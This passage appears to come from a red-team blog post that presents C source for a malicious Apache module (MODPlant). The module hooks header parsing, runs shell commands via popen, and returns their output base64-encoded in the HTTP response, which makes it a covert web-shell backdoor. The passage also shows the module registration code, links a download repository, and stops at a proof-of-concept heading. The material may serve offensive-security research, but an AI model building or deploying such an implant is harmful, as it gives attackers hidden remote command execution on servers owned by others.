```c
    }

    // Capture command output
    char buffer[8192];
    size_t total_len = 0;
    size_t cap = 8192;
    unsigned char *output = apr_pcalloc(r->pool, cap);

    while (fgets(buffer, sizeof(buffer), fp)) {
        size_t blen = strlen(buffer);
        if (total_len + blen >= cap) {
            cap *= 2;
            unsigned char *newbuf = apr_palloc(r->pool, cap);
            memcpy(newbuf, output, total_len);
            output = newbuf;
        }
        memcpy(output + total_len, buffer, blen);
        total_len += blen;
    }

    pclose(fp);

    // Encode and return output
    char *encoded = b64encode(r->pool, output, total_len);
    ap_rputs(encoded, r);

    return OK;
}
```

#### Module Registration

Finally, we register our hook with Apache:

```c
static void register_hooks(apr_pool_t *p)
{
    ap_hook_header_parser(admin_exec_hook, NULL, NULL, APR_HOOK_MIDDLE);
}

module AP_MODULE_DECLARE_DATA admin_exec_module = {
    STANDARD20_MODULE_STUFF,
    NULL, NULL, NULL, NULL,
    NULL,
    register_hooks
};
```

I called this whole project MODPlant, and deployed it in Github, you may download it [here](https://github.com/s0ld13rr/MODPlant).

## Proof of Concept Exploitation
